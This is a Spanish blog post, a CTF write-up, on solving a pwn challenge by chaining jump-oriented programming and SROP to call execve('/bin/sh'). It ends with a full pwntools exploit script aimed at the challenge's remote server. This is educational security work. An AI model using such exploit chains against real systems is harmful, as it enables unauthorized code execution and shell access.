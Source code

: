```yaml
---
layout: post
title: WRITEUP. Scandinavian journal of psychology
date: 2020-06-15 00:55
comments: true
categories: [Sin categoría]
---
```

<!-- wp:paragraph -->
<p>Vengo con el vuelo del CTF de <a href="https://convid.cl/">CONVID </a>que estuvo, pero es que de Lujo! Felicitaciones a los organizadores. El CTF tenía de todo, desafios de Stego, Crypto, Misc, Web, etc. Y sobre todo mi categoría favorita PWN!,&nbsp; soy muy aficionado al exploit dev y sabiendo que algunos desafíos serian hechos por el gran <a href="https://c4ebt.github.io/">c4e </a>venía con muchas expectativas de lo mismo, por lo que me puse de meta intentar todos los desafíos posibles de la categoría, y estoy muy orgullo del logro, ya que no fue fácil<br></p>
<!-- /wp:paragraph -->

<!-- wp:image -->
<figure class="wp-block-image"><img src="https://lh3.googleusercontent.com/mEr6R7Atzk0P_eBf-ige4n8nB6ZVKeIy5F_jcIw2cq9sSdpadHely-af-AKnOpfyBd5moNHHftNeSEENWH4O9W7UFB_lsKqdlz168vmslgb3-WDudTscACoqnMBk0Yqn0fTjCVgw" alt="" /></figure>
<!-- /wp:image -->

<!-- wp:paragraph -->
<p>Hasta el último minuto no tenía equipo, pero mi amigo n0m0 (MVP de nuestro equipo) Se le ocurrió juntar algunos amigos para ver qué podíamos hacer,&nbsp; la verdad la experiencia siempre es grata, es increíble lo que puedes aprender de todos y las ideas que se discuten, así que gracias de nuevo a mi team Jot_Kiddiez (yeah hackers de los 90!). Me voy muy contento con el tercer lugar, además de felicitar los ganadores <a href="https://cntr0llz.com/">Cntr0llz </a>quienes por paliza nuevamente se llevan otro CTF a sus bolsillos.<br></p>
<!-- /wp:paragraph -->

<!-- wp:image -->
<figure class="wp-block-image"><img src="https://lh5.googleusercontent.com/yMTXIku1dBvKegxSs9KsbgEfU2ZUv_zUkCUW8p66_YhbwLbH7it79rfOPwC2NDrkjfk6p5y2-EmzbEfzEZGzUMmDBmxwfFrJWt_Q568rp4KtU_rHQMoOQyEuA4oDxkO_uUe7tSRV" alt="" /></figure>
<!-- /wp:image -->

<!-- wp:paragraph -->
<p>Yendo a lo nuestro! El reto en cuestión es un reto llamado Scandinavian Joournal of Psychology (Que fumaron?). Es un binario sujeto la ejecución&nbsp; de JOP (jump oriented programming), <a href="/writeup-juujuu-pwnday01-soluciones/">sí de nuevo</a>, pero esta vez las cosas son un poco más difíciles, casi tanto como con el desafío “Labot”, que pueden leer el writeup en el blog de otro crack  <a href="https://f4d3.io/convid-pwn-labot/">f4d3</a>!.&nbsp;<br></p>
<!-- /wp:paragraph -->

<!-- wp:paragraph -->
<p>Revisamos primero el binario para observar que es un ELF de 64 bit dinámicamente linkeado.&nbsp;<br></p>
<!-- /wp:paragraph -->

<!-- wp:image -->
<figure class="wp-block-image"><img src="https://lh5.googleusercontent.com/263hl286PktO4QH05IFePzUUrHFhWnXCJ2gzzAFQRJDYKhCOHplX3pUXlZu27SRsTJPPb5OQZ57yN8EFx3J65s0f-ZKxuTKeQLDIzVwL08f8BEnvnnfgiFuf1mTJXsh0Bk0I6Nmf" alt="" /></figure>
<!-- /wp:image -->

<!-- wp:paragraph -->
<p>Y podemos usar checksec para ver que tiene protección en el stack solamente (NX), por lo tanto no tendremos que lidiar con aslr</p>
<!-- /wp:paragraph -->

<!-- wp:image -->
<figure class="wp-block-image"><img src="https://lh4.googleusercontent.com/h16wTJ5FL9WbzfpDlD6EHAKHbkX_EslW23dCwO2ySlIomi-8njNfWzcNO6gCK44P2C17vXJryGQ_819gqHGpaqMiNLHYbt_3rlgb5iLksJDr6o24yDcaIKn_5t1eBbLmxe5OqxXD" alt="" /></figure>
<!-- /wp:image -->

<!-- wp:paragraph -->
<p>Cuando analizamos el binario con radare2,, podemos observar que es un binario muy pequeño, sin instrucciones “ret” por lo que deberemos ocupar los saltos a registros para controlar el flujo del stack, luego de darnos cuenta que existe un overflow en la función read<br></p>
<!-- /wp:paragraph -->

<!-- wp:image -->
<figure class="wp-block-image"><img src="https://lh5.googleusercontent.com/tyBnJhaxNmL0k7nk2-kr4cC35H46HRAXFgxPsCYl0SEdJo9oqnfwqymV3ydP5xr7D7Dv6XJAkOzijS7bI7s07jl3JsakmEY3tW9lNinfqc_JUKbq7624t7lERhO_DhOfmUjNgXfu" alt="" /></figure>
<!-- /wp:image -->

<!-- wp:paragraph -->
<p>Probamos usar cyclic para identificar el crash en gdb<br></p>
<!-- /wp:paragraph -->

<!-- wp:image -->
<figure class="wp-block-image"><img src="https://lh5.googleusercontent.com/mT31CFHSg3zAmz62yTSPSKXKmBvqTRh8faN2Wcf__Gwzv8gs8zRZwfTTPpBm8ybx51orO1gTNJJE0jbz8Yg3vXHeQItQX--wEG0q82iJ4HpBCYjIGc6ttC4duw1kkyRgmm6poJYu" alt="" /></figure>
<!-- /wp:image -->

<!-- wp:paragraph -->
<p>Y luego calcular el offset al crash en RSP que resulta en 264<br></p>
<!-- /wp:paragraph -->

<!-- wp:image -->
<figure class="wp-block-image"><img src="https://lh4.googleusercontent.com/n_6W1YXvLKTKre-EJK9DPYvTDAMEdGze9-3gx76EF_qBihALhRjKxsBZ7btvpYN0SQM2_CvnEA8NeXyR0sUCwEI9gcbhdOhUUGUPkdO-4Q6vhE2y5CMq6TWrdHoKyx2r93JbEkKf" alt="" /></figure>
<!-- /wp:image -->

<!-- wp:image {"width":422,"height":144} -->
<figure class="wp-block-image is-resized"><img src="https://lh4.googleusercontent.com/NAQ6MQj7xZYoToYBy3lwJiN8uAKJ4sHlOFGTaNwGUHCmCnUZqVQ3fabDwIQnMbajcO2ecul8xkCDhELa_mUw5zkBnSRAXZkjjY9k8crOkftffBrz2dY0CbT96JJVslZ3N6PIAjcN" alt="" width="422" height="144" /></figure>
<!-- /wp:image -->

<!-- wp:paragraph -->
<p>Además podemos usar objdump para obtener más información del binario y buscar los gadgets disponibles, resulta interesante que existe una sección .data la cual nos será de utilidad más tarde<br></p>
<!-- /wp:paragraph -->

<!-- wp:image {"width":660,"height":189} -->
<figure class="wp-block-image is-resized"><img src="https://lh5.googleusercontent.com/8S8pi_CvQMYgQZbae4Hp7pEh5OB4ZLZYjBAWq4tBOeQdamPQPXDprzYDwrDjZuV8XaHRQB0g5-lHbmX4dLkPC8uHGmhtXaxF9qJYmc6wxuHplhoNy5VvtWjsl30u1vDSTLLcE4ya" alt="" width="660" height="189" /></figure>
<!-- /wp:image -->

<!-- wp:paragraph -->
<p>Y aca los gadgets disponibles (muy pocos!)<br></p>
<!-- /wp:paragraph -->

<!-- wp:image -->
<figure class="wp-block-image"><img src="https://lh4.googleusercontent.com/LITYQjXoxQbixxNrpqONE6rpmAe47i4GHNGtpzqs4MTpO9kqx4ANZxaczxguATeZMTwzfE0EqIt5ZLuK0qBGtat7-P_b18hpxTBSr9NYICxZ2Jo-F6o3vdC8Dakwnlr-O9Dx5GA3" alt="" /></figure>
<!-- /wp:image -->

<!-- wp:paragraph -->
<p>Qué hacemos ahora pues jop! Como expliqué en otras ocasiones necesitamos setear&nbsp; un dispatcher el cual nos permita retornar al stack y tomar instrucciones de el cada vez que “retornemos” con un salto. El registro a setear parece ser RCX por y nuestro dispatcher es el salto al stack:<br></p>
<!-- /wp:paragraph -->

<!-- wp:image {"width":657,"height":47} -->
<figure class="wp-block-image is-resized"><img src="https://lh3.googleusercontent.com/VItpgQdij6u3CmiCqOehlBK6zZol9TJdpE9iQUEOyANUPZVu5f4HY7x1pqdv-ATjGbtzOb8-2oCZHU9WjkYNbc6QkR5jujLnDGIiQG9ZBamRZYD4p2RReXUSJaPRbnZaiEPreLOA" alt="" width="657" height="47" /></figure>
<!-- /wp:image -->

<!-- wp:paragraph -->
<p>Así que comenzamos seteando algunas variables y nuestro payload:<br></p>
<!-- /wp:paragraph -->

<!-- wp:image {"width":480,"height":402} -->
<figure class="wp-block-image is-resized"><img src="https://lh4.googleusercontent.com/LeH4phcdgPkcQQ_2v-XwK8iRI-3tNgm7kle1SeEGHV3FS7aEVEwaBr_EjXT0GtpYuuDVfDa3NbJh99yC1Y6a1YtpqkO1swkY7kMlf8WVnSghA0EXKLNUWuOmrIgmFW70rwR6HKLF" alt="" width="480" height="402" /></figure>
<!-- /wp:image -->

<!-- wp:paragraph -->
<p>Bueno con esto ya podemos saber que siempre que ocupemos un gadget que lleve a un salto a RCX vamos a poder retornar a ejecutar la instrucción que se encuentr en el stack, y ahora… Aca es donde uno se cabecea y le da vueltas, no estaba fácil. Luego de muchas pruebas observamos que si llamamos nuevamente a read, el valor de RAX se intercambia con el valor de RDX (el cual contiene el tamaño del buffer donde lee read.<br></p>
<!-- /wp:paragraph -->

<!-- wp:image -->
<figure class="wp-block-image"><img src="https://lh3.googleusercontent.com/iwyUKBLWujtRy5w-dGjLHXs1r95UEriABK17C9wUjMCdC5OV3HHMMqOAtXvGbVb3vpGBXeVBCm2ysE2QQkKY9lWpiHPeUWjIQmZRp8lo7-D-7Zo6mh9B7PCcBCE2jYPpBF02nRg7" alt="" /></figure>
<!-- /wp:image -->

<!-- wp:image -->
<figure class="wp-block-image"><img src="https://lh5.googleusercontent.com/cjXmcexfZaoXMQExmQnLNaErTwIy95MWR8ZUFgd0iH4PEWPM2rnt4u0WVfVWLah887IPn5Vk4ruo9DqImoCwd-5qULkLaGexpxjZy6kSXEKuuvyobsLEvsLxsHFVzVFY6b9HmHFH" alt="" /></figure>
<!-- /wp:image -->

<!-- wp:paragraph -->
<p>Genial si sumamos esto al gadget que nos permite aumentar RAX en 7 podemos hacer que el valor de RAX sea 0xF. Que nos permite esto? Pues hacer SROP! O sigreturn oriented programming, que en verdad es una técnica de explotación del tipo “one gadget” ya que nos permite hacer una llamada a sigreturn (que no pide argumentos) y esto nos ayudará a luego crear un “fake frame” lo cual nos permitirá situar los registros a los valores que queramos.<br></p>
<!-- /wp:paragraph -->

<!-- wp:paragraph -->
<p><a href="https://lwn.net/Articles/676803/">Mas info de SROP Aca!</a><br></p>
<!-- /wp:paragraph -->

<!-- wp:paragraph -->
<p>Excelente pues llamaremos entonces a sigreturn y seteamos los registros para llamar a execve</p>
<!-- /wp:paragraph -->

<!-- wp:paragraph -->
<p>Y dado que llamamos de nuevo read usaremos read para setear los valores de RSI a .data (y escribir /bin/sh para luego usarlo con execve()). Y RDX a 8 para setear luego RAX al mismo valor, nuestro payload queda así (<a href="https://docs.pwntools.com/en/stable/rop/srop.html">gracias pwntools!</a>)<br></p>
<!-- /wp:paragraph -->

<!-- wp:image -->
<figure class="wp-block-image"><img src="https://lh6.googleusercontent.com/0uG6QbXl1yGKIUbQnN3CH0J4NUfk0WSRCud8RZw6iwOY7tRs2eg2FBUYf_A_WIiIUnvRDuJF9utMnudAWydObKGl6DdcmSb764aXSjMTBaVh42dFyyvC-cgwtcF5WkNc7SyUAQO3" alt="" /></figure>
<!-- /wp:image -->

<!-- wp:paragraph -->
<p>Ahora le ponemos bencina a la cosa y ejecutamos, podemos ver la llamada a read para escribir en .data:</p>
<!-- /wp:paragraph -->

<!-- wp:image {"width":583,"height":130} -->
<figure class="wp-block-image is-resized"><img src="https://lh3.googleusercontent.com/UWLV5sSJr7pNMYjY4trWaoCurFox6xsrv-MTJf8ajs2wqY-Lh1mNMOgI9di9-z592GTH-WA9rHesWVMt9xqtLovi8Jpj2az2mOhbE8Ctst5yEhqCRSSS6Pt_AkSkiKCMHQGvZ4E3" alt="" width="583" height="130" /></figure>
<!-- /wp:image -->

<!-- wp:paragraph -->
<p>y luego sigreturn para setear los registros<br></p>
<!-- /wp:paragraph -->

<!-- wp:image {"width":568,"height":164} -->
<figure class="wp-block-image is-resized"><img src="https://lh6.googleusercontent.com/mdTIBma4otEJsJnXXRuOYAzdqrqVlU70tI9OVjNv36mXgFSgMqZerDA4mAo3qu-jwSDSRrq83NZ8RtPrfdSZzq1Wn-4z4kG9WASKLpRswBJPUDcQ99hUdQ8Yo3UilukwCS2zQpzC" alt="" width="568" height="164" /></figure>
<!-- /wp:image -->

<!-- wp:paragraph -->
<p>Y finalmente exceve() con la llamada a /bin/sh<br></p>
<!-- /wp:paragraph -->

<!-- wp:image {"width":580,"height":121} -->
<figure class="wp-block-image is-resized"><img src="https://lh5.googleusercontent.com/UaAOu2VSnD_FYFnHgYrYHzCXNmtZ3b9nlf3V_4RgaPDqZzeYWJ20hgaOP9QeEHngcT0CtJ9eqfJXJ6M7xoUsNBRetQSrmlI6Y-L185RU7KdUbW3j2SlSNdpS0RH-GGkFRDhpbXKx" alt="" width="580" height="121" /></figure>
<!-- /wp:image -->

<!-- wp:paragraph -->
<p>Ahora aprobamos remoto y BANG! FLAG DANCE! </p>
<!-- /wp:paragraph -->

<!-- wp:image -->
<figure class="wp-block-image"><img src="https://lh6.googleusercontent.com/KFc40PWR-jb9LykpS7NI6KZrUy3eernjVA0gyGm_368DxHVjDptj9DzsBZfzyb9-gMISC5aByM3nkGZwIvoBlPgTy3oqclLKiymKbQ-8NOOuUk7An9gIhM5EOVieZh_6lbqvwW4u" alt="" /></figure>
<!-- /wp:image -->

<!-- wp:paragraph -->
<p>Aca les dejo el exploit completo, lo pase genial! Pronto espero compartir mas writeups del CTF, estuvo muy bueno!</p>
<!-- /wp:paragraph -->

<!-- wp:code -->
<pre class="wp-block-code"><code>from pwn import *
from time import sleep

context.clear(arch="amd64")
gdbscript = '''
break *0x00400107
continue
'''
data = 0x600124
dispatcher = 0x00400107
binsh = "/bin/sh\x00"
syscall = 0x400105

payload = (cyclic(256))
payload += p64(0x400115) #pop rcx
payload += p64(dispatcher)#rcx
payload += p64(0x400114)#pop
payload += p64(data)#rsi
payload += p64(0x8)#rdx
payload += p64(0x4000ff)#read
payload += p64(0x400119)
payload += p64(syscall)

frame = SigreturnFrame(kernel="amd64")
frame.rax = 0x3b
frame.rdi = data
frame.rsi = 0 
frame.rdx = 0
frame.rip = syscall
payload += str(frame)

#r = gdb.debug('./nanana', gdbscript)
#r = process('./nanana')
r = remote('172.104.234.7', 7891)
r.sendline(payload)
sleep(1)
r.sendline(binsh)# instrucciones?

r.interactive()
</code></pre>
<!-- /wp:code -->
